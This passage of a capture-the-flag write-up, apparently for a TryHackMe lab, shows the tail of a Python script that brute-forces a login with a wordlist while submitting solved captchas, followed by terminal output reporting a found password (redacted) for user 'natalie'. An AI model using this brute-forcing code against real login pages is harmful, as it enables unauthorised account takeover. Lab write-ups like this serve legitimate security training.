 ```py
    def afterSolvedCaptchaRequest(self, password, answer):
        payload = {
            'username': self.username,
            'password': password,
            'captcha': answer
        }
        passwordRateLimitedRequest = requests.post(self.url, data=payload)
        isInvalidCaptcha = 'Invalid captcha' in passwordRateLimitedRequest.text
        isValidPassword = not 'Invalid password' in passwordRateLimitedRequest.text
        if isInvalidCaptcha:
            print('[-] Captcha failed.')
        if isValidPassword:
            print(f'[+] Found valid password! username: {self.username}, password: {password}')
            exit()

if __name__ == '__main__':
    url = 'http://10.10.2.194/login'
    username = 'natalie'
    passwordWordList = 'passwords.txt'
    bruteforcer = Bruteforcer(url, username, passwordWordList)

    bruteforcer.enumeratePassword()
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Capture!)-[2023.05.12|17:40:31(HKT)]
└> python3 enum_password.py
[+] Found valid password! username: {Redacted}, password: {Redacted}
```

Nice! Let's login!

